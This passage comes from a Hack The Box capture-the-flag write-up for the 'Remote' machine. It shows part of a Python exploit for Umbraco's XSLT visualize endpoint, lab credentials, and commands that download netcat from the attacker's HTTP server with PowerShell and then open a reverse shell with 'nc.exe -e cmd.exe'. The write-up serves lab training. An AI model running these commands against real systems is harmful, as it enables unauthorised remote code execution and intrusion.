 ```python
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}
data = { "__EVENTTARGET": "", "__EVENTARGUMENT": "", "__VIEWSTATE": VIEWSTATE,
    "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
    "ctl00$body$xsltSelection": payload,
    "ctl00$body$contentPicker$ContentIdValue": "",
    "ctl00$body$visualizeDo": "Visualize+XSLT" }

# Launch the attack
r4 = s.post(url_xslt, data=data, headers=headers)
# Filter output
soup = BeautifulSoup(r4.text, 'html.parser')
CMDOUTPUT = soup.find(id="result").getText()
print(CMDOUTPUT)
```

Since it is a windows machine, we will upload a netcat windows binary to use to get a reverse shell, by first starting a http server on our kali machine

```
sudo python3 -m http.server 80 --dir /usr/share/windows-resources/binaries/
```

and then run the exploit like so

```
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "(new-object system.net.webclient).downloadfile('http://10.10.14.41/nc.exe','c:/users/public/nc.exe')"
```

followed by

```
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c "c:/users/public/nc.exe" -a "10.10.14.41 1234 -e cmd.exe"
```

We pop a shell and have access to the user.txt

![user flag](/assets/img/writeups/htb/boxes/remote/remote_usershell.png)

<h4 align="center">On To Root!</h4>

